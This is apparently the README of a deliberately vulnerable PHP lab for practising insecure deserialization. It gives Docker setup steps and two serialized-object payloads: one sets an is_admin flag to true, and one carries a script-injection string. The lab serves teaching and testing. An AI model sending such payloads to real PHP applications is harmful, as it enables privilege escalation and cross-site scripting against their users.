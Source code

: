 # insecure-deserialization-php
## Setup
```bash
git clone https://github.com/tinkerscript/insecure-deserialization-php.git
cd insecure-deserialization-php
docker build -t insec-d-php .
docker run -p 8088:80 insec-d-php
```
## Payloads
Safe:
```
O:4:"User":2:{s:4:"name";s:4:"John";s:8:"is_admin";b:1;}
```
Unsafe:
```
O:11:"UnsafeClass":1:{s:7:"payload";s:32:"<script>alert('hacked')</script>";}
```
